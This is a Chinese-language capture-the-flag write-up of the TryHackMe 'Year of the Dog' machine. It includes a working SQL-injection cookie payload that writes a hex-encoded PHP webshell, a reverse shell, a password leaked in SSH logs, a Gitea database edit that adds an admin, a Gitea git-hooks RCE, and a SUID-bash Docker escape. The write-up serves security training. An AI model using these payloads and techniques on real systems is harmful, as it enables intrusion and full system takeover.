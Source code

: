 ```yaml
---
sidebar_position: 168
tags: [Easy, Linux, SQLI, SUDO, docker]
title: "Year of the Dog"
description: "Year of the Dog"
sidebar_label: "Year of the Dog"
slug: /tryhackme/168
---
```


# Year of the Dog

## 端口扫描

```bash
root@ip-10-10-19-210:~/adana# nmap -sTCV -p- --min-rate 1000 10.10.61.223

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-28 07:46 BST
Nmap scan report for ip-10-10-61-223.eu-west-1.compute.internal (10.10.61.223)
Host is up (0.00031s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:c9:dd:9b:db:95:9e:fd:19:a9:a6:0d:4c:43:9f:fa (RSA)
|   256 c3:fc:10:d8:78:47:7e:fb:89:cf:81:8b:6e:f1:0a:fd (ECDSA)
|_  256 27:68:ff:ef:c0:68:e2:49:75:59:34:f2:bd:f0:c9:20 (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Canis Queue
MAC Address: 02:BA:D6:FA:61:77 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

## 80

```bash
root@ip-10-10-19-210:~/adana# gobuster dir -u http://10.10.61.223 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php.txt.html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.61.223
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php.txt.html
[+] Timeout:        10s
===============================================================
2023/10/28 08:04:04 Starting gobuster
===============================================================
/assets (Status: 301)
/server-status (Status: 403)
===============================================================
2023/10/28 08:04:54 Finished
===============================================================
```

在进行扫描之后并没有发现可以利用的地方, 接着查看网页的显示我发现在我每次请求之后网站对应的 ID 不同, 所以我猜测这是根据 Cookie 来作为判断的, 那么也就会和合同的数据库产生交互经过一系列操作之后, 我确定了利用方式, 利用此来写入一个 WebShell 

```bash
id=177a504b90098b948a5b3769d7984b8f' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY 0x3C3F706870206563686F20223C7072653E22202E207368656C6C5F6578656328245F4745545B22636D64225D29202E20223C2F7072653E223B3F3E-- -
```

之后访问我们上传的 WebShell 我们就可以实现命令注入了

![image-20240709202208535](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-202210.png)

## 后渗透

### www-data

利用之前上传的 WebShell 来获取一个反向 Shell

![image-20240709202222055](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-202223.png)

### www-data —> dylan

之后观察 dylan 用户的家目录发现有一个 `work_analysis` 文件, 经过查看发现其内容为关于 SSH 的日志信息, 之后我们从中分析出了用户 dylan 的密码

```bash
(remote) www-data@year-of-the-dog:/home/dylan$ cat work_analysis 
Sep  5 20:52:34 staging-server sshd[39184]: Received disconnect from 192.168.1.142 port 45582:11: Bye Bye [preauth]
Sep  5 20:52:34 staging-server sshd[39184]: Disconnected from authenticating user root 192.168.1.142 port 45582 [preauth]
Sep  5 20:52:35 staging-server sshd[39190]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39191]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
Sep  5 20:52:35 staging-server sshd[39194]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.1.142  user=root
(remote) www-data@year-of-the-dog:/home/dylan$  cat work_analysis | grep dylan
Sep  5 20:52:57 staging-server sshd[39218]: Invalid user dylanLabr4d0rs4L1f3 from 192.168.1.142 port 45624
Sep  5 20:53:03 staging-server sshd[39218]: Failed password for invalid user dylanLabr4d0rs4L1f3 from 192.168.1.142 port 45624 ssh2
Sep  5 20:53:04 staging-server sshd[39218]: Connection closed by invalid user dylanLabr4d0rs4L1f3 192.168.1.142 port 45624 [preauth]
```

### dylan —> git(docker)

1. 在系统目录中我发现 `/gitea` 目录这其中的内容告诉我系统中存在一个 `gitea` 服务
2. 查看进程发现 root 用户启动了一个 docker 环境对应的端口为 3000, 恰好对应 3000 端口就是 gitea 服务
3. 在 `/gitea/gitea` 下存在一个 `gitea.db` 经过判断这就是 gitea 的数据库,我将其下载到本地查看发现其中存在一个用户但是可惜密码无法解密
4. 综上我们可以判断攻击思路为 : 端口转发 —> 访问 gitea —> 获取管理员账号或者一些其他信息

执行端口转发, 之后从本地访问我们的服务

```bash
(remote) dylan@year-of-the-dog:/home/dylan$  ssh -R 4444:127.0.0.1:3000 root@10.10.138.152
```

从页面中我们知道对应的 gitea 版本为 1.13.0 恰好存在一个对应的 RCE  漏洞可以利用 [CVE-2020-14144-GiTea-git-hooks-rce](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce)

![image-20240709202245709](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-202247.png)

前提是需要管理员账号, 但是我们没有管理员的账号, 在之前我发现对于 `gitea.db` daylan 用户具有 rw 权限, 所以我们创建一个用户并修改其数据库对应的字段完成管理员账号添加 (无法修改 dylan 用户密码实现因为会有校验)

![image-20240709202253558](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-202255.png)

修改完成后上传 `gitea.db` 并覆盖原本的文件实现管理员账号的添加, 之后我们只需要按照上面 github 的操作进行执行即可唯一不同的是对于远程推送并不需要进行操作, 我们只需要在 gitea 修改文件并上传即可

```bash
root@ip-10-10-138-152:~/yearofthedog# nc -nvlp 4445
Listening on [0.0.0.0] (family 0, port 4445)
id
Connection from 10.10.170.22 47472 received!
bash: cannot set terminal process group (17): Not a tty
bash: no job control in this shell
bash-5.0$ id
uid=1000(git) gid=1000(git) groups=1000(git),1000(git)
```

 ### git(docker) —> root(docker)

我发现 git 用户具有 SUDO 特权可以很快的获取到 Shell

![image-20240709202302183](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-202303.png)

### root(docker) —> root

1. 之前我们修改本地的 `gitea.db` 并实现了对 gitea 平台的登陆, 所以对应的目录肯定和 docker 是挂载的

我发现 `/app` 目录和 `/gitea` 目录相同, 所以可以分析出这就是挂载目录, 所以我们只需要简单操作一下即可

```bash
#  靶机端
(remote) dylan@year-of-the-dog:/gitea/gitea$ cp /bin/bash .

# docker
chown root:root bash
chmod u+s bash
```

之后我们可以发现靶机的 bash 也被赋予了 SUID 特权

![image-20240709202313270](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-202314.png)
